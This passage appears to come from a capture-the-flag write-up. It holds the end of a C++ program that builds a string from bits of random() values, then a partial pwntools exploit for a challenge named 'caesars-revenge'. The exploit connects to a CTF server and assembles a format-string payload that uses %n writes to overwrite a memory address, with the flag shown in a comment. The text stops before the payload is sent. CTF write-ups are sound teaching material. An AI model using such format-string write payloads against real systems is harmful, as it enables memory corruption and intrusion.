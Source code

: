 ```c
    }

    decltype(' ') s;

    auto v1 = random();
    auto v2 = random();
    auto v3 = random();

    std::cout << "BCDGPTVZ"[v1 >> 0x1E & 0x3 | v2 >> 0x00 & 0x1];
    std::cout << "BCDGPTVZ"[v1 >> 0x09 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x05 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x08 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x15 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x06 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x1D & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x1B & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x04 & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x0D & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x0A & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x16 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x1A & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x17 & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x1C & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x14 & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x01 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x00 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x11 & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x13 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x18 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x0B & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x19 & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x10 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x03 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x12 & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x0F & 0x7];
    std::cout << "BCDGPTVZ"[v1 >> 0x0C & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x07 & 0x7];
    std::cout << "BCDGPTVZ"[v3 >> 0x0E & 0x7];
    std::cout << "BCDGPTVZ"[v2 >> 0x1F & 0x1 | v3 >> 0x0 & 0x3];

    return 0;
}
```

## caesars-revenge

```
#!/usr/bin/python2

from pwn import *

# p = process('./caesars-revenge')
p = remote('pwn.hsctf.com', 4567)

#
# hsctf{should_have_left_%n_back_in_ancient_rome}
#

payload  = '%28$s  '
payload += '%142x%29$hhn'
payload += '%16251x%30$ln'
payload += p64(0x404018)
payload += p64(0x404018)
```